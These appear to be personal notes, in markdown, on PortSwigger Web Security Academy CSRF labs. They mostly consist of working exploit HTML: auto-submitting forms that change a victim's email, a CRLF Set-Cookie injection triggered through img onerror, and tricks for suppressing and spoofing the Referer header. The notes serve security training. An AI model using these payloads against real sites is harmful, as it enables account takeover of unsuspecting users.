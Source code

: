 <span style="color:yellow;font-weight:700;font-size:30px">
Cross-site request forgery (CSRF)

</span>
https://portswigger.net/web-security/csrf

# ***[1. Lab: CSRF vulnerability with no defenses]***(https://portswigger.net/web-security/csrf/lab-no-defenses)

goal:
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

1. do the process of login and changing email to establish request format and syntax - send request to repeater:
POST /my-account/change-email HTTP/1.1\
Host: 0aa700d004d14148c0977450001c00a8.web-security-academy.net
Cookie: session=yCKgkq71rWvYSZOkOdEht0vvA2kdgiS3
..

email=attacker%40gmail.com


2. create a form on the server with the url from stage 1 - to be sent in clients behalf when he enters the maliocious site:
<html>
    <body>
        <form action="URL" method="POST">
            <input type="hidden" name="email" value="email@new.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>

3. final payload: 
#
  <html>
    <body>
        <form action="https://0aa700d004d14148c0977450001c00a8.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


if site supports GET it can be done in a single line (without need for a site):
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">





# ***[2. Lab: CSRF where token validation depends on request method]***(https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 
smae as last lab - just change requets to GET:

1. do the process of login and changing email to establish request format and syntax - send request to repeater:
POST /my-account/change-email HTTP/1.1\
Host:0a3a009803bd4ed7c0a6186c000500e5.web-security-academy.net
..
email=attacker@gmail.com

2. change to GET method and copy url:
https://0a3a009803bd4ed7c0a6186c000500e5.web-security-academy.net/my-account/change-email?email=attacker@gmail.com


3. use this template:
<html>
    <body>
        <form method="GET" action="URL">
            <input type="hidden" name="email" value="email@new.com">
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>

# final payload:

<html>
    <body>
        <form method="GET" action="https://0a3a009803bd4ed7c0a6186c000500e5.web-security-academy.net/my-account/change-email?email=attacker@gmail.com">
            <input type="hidden" name="email" value="blablabla" />
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>


<!-- 3. Lab: CSRF where token validation depends on token being present -->
https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.


ommit the CSRF header in exploit site it as if it has no csrf (pretty dumb application of the CSRF):
<html>
    <body>
        <form action="https://0a27009a045fca44c096adf700fd0027.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>!

<!-- 4. Lab: CSRF where token is not tied to user session -->
https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session


To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 

1. login and send request to change email - get 302 and send to repeater. try to resend the req from the reapeter and get 400 "Invalid CSRF token"
now we know its a 1-time token

2. intercept and catch 3 requests to reapeter for further analasys. open incognito window, sign in and do the same for carlos. make sure you drop each messege after sending to the repeater

3. try to use unused token of peter on peter old request to check coralation between session and toke. do it also for token from carlos on session of peter (or vice versa)
now we know no coralation exist we can use our token with any other user seesion

4. prepare html POST form with email and cdrf values. make sure to use only unsused token. test exploit on yourself. once successed - replce token with unused token and send it to victim.

working exploit:

<html>
    <body>
        <form action="https://0a2500e603186d67c02c0121009f009e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com" />
            <input type="hidden" name="csrf" value="Raj0C3E8iKUphSJxB587fdoYsYIxwTrt" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


<!-- 5.Lab: CSRF where token is tied to non-session cookie -->
https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie


1. change csrf value - 400 "Invalid CSRF token"
2. change csrfKey value - 400 "Invalid CSRF token"
csrf values are paired
3. change session value - 302 login to new session
probably not related to csrf values
4. login to carlos in incognito mode send email-change request to repeater. 
5. use carlos csrf with peter csrfKey - 400 "Invalid CSRF token"
6. use peter csrf value pair on carlos session - 302 found
check at my account page to make sure it changed.
7. look for "Set-Cookie" HEADER in site responses: find set-cookie reflected on response to: GET /?search=bla HTTP/1.1  -->send to repeater
8. craft HEADER-injecting payload using %0d%0a (\r\n) which will be parsed into:
    ?search=bla \r\n
    set-cookie: csrfKey={csrfKey value}
final cookie-injecting payload:
/?search=bla%0d%0aSet-Cookie:%20csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP
10. test on repeter - 400 "Potentially dangerous search term". request in browser and see csrf cookie added with injected value
11. craft <img> tag to force-visit the cookie-loading link and execute onerror-submition of the form:
<img src="https://0ac200de030c4653c0b2248d00a500a7.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP" onerror="document.forms[0].submit()">

12. craft html on exploit. make sure to use a paired csrf and csrfKey values:

<html>
    <body>
        <form method="POST" action="https://0ac200de030c4653c0b2248d00a500a7.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="evil@new.com" />
            <input type="hidden" name="csrf" value="I3cdY6uXw5SWiE2FbnphGtw7GO2V2wH1" />
        </form>
        <img src="https://0ac200de030c4653c0b2248d00a500a7.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP" onerror="document.forms[0].submit()">
    </body>
</html>


    
<!-- 6. Lab: CSRF where token is duplicated in cookie -->
https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie

1. check relation between csrf and csrfKey, check if any string will work as long as it will be identical between the 2 param

2. find set-cookie injection point and craft url:
https://0a5500bd03baf0c5c079115e00af0056.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrfKey=amotzrules

3. craft malicious site at exploit server:

<html>
    <body>
        <form action="https://0a5500bd03baf0c5c079115e00af0056.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="success@gmail.com" />
            <input type="hidden" name="csrf" value="amotzrules" />
            <input type="submit" value="submit request" />
        </form>
        <img src="https://0a5500bd03baf0c5c079115e00af0056.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrf=amotzrules" onerror="document.forms[0].submit()">
    </body>
</html>

note2self: not like lab 5 - there is no csrfKey - just csrf in both locations...

<!-- 7. Lab: CSRF where Referer validation depends on header being present -->
https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

goal:
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

research refferer HEADER manipulation yeilds the following command:
<head>
<meta name="referrer" content="never">
</Head>


lets use it inside our exploit center with the form format of the previouse lab:
<html>
    <head>
        <meta name="referrer" content="never">
    </Head>
    <body>
        <form action="https://0a31004204da258bc0af6329003a00be.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="chang2@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


lab specific materials:
https://www.w3schools.com/tags/tag_meta.asp // what is <meta> tag
https://wiki.whatwg.org/wiki/Meta_referrer //  types of meta referrer commands:
The referrer metadata attribute can have one of four values for its content attribute:
    never
    always
    origin
    default


also:
https://moz.com/blog/meta-referrer-tag#How%20to%20use%20the%20meta%20referrer%20tag
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy


<!-- 8. Lab: CSRF with broken Referer validation -->
https://portswigger.net/web-security/csrf/lab-referer-validation-broken

goal:
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 

1. test referer HEADER limitition: what is the shortest version of the url, does it need to be on the start or the end, 

original:
Referer: https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net/my-account
302 found
0a5b00e7045ec019c01c1622000300c5.web-security-academy.net
302 found
https:google.com#https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net
302 found

command to use:
History.pushState()
https://developer.mozilla.org/en-US/docs/Web/API/History/pushState
In an HTML document, the history.pushState() method adds an entry to the browser's session history stack. 
craft to add the referrer url to the HEADER:
<script>
        history.pushState("", "", "/?0a5b00e7045ec019c01c1622000300c5.web-security-academy.net")
</script>


lets craft our final html payload on the exploit server:

<html>
    <script>
        history.pushState("", "", "/?0a5b00e7045ec019c01c1622000300c5.web-security-academy.net")
    </script>
    <body>
        <form action="https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="chang2@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


important:
since browser ommit the strings after the "?" as default, lets add the refferer policy to force using the full url. we will insert it on the Head section:

Referrer-Policy: unsafe-url


#
unsuccessful tries:
worked on peter account - didnt work on victim: 

File:
/exploit?0a5b00e7045ec019c01c1622000300c5.web-security-academy.net

Head:
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

Body:
<html>
    <head>
        <meta name="referrer" content="always">
    </Head>
    <body>
        <form action="https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="chang2@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>



###############################3333

general materials:
Defending against CSRF with SameSite cookies
https://portswigger.net/web-security/csrf/samesite-cookies

CSRF tokens
https://portswigger.net/web-security/csrf/tokens

XSS vs CSRF
https://portswigger.net/web-security/csrf/xss-vs-csrf